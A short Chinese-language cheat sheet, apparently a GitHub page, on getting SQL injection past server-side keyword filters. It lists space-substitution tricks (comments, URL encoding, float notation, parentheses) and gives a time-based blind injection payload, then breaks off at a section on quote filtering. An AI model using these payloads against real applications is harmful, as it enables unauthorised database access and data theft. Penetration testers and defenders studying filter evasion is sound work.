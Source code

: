 # SQL注入针对关键字过滤的绕过技巧


在SQL注入中经常会遇到服务端针对注入关键字进行过滤，经过查询各种文章，总结了一部分绕过的方法。


> 2020.08.08更新：增加利用MySQL8.0语法新特性绕过方法，增加SQL注入过滤和检测的几种思路和绕过方法

## 过滤空格

### 使用注释符`/**/`绕过

```sql
SELECT/**/name/**/FROM/**/table
```

### 使用**url编码**绕过

```sql
%a0 发出去就是空格的意思，但是需要在burp中抓包后修改
```

### 使用**浮点数**绕过

```sql
select * from users where id=8E0union select 1,2,3
等价于
select * from users where id=8.0 select 1,2,3
```

### 使用**Tab**替代空格

### 使用**两个空格**替代一个空格

### 使用**括号**绕过

如果空格被过滤，括号没有被过滤，可以用括号绕过。
在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

例如：

```sql
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于time based盲注,例如：

```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

## 过滤引号

### 使用**16进制**绕过
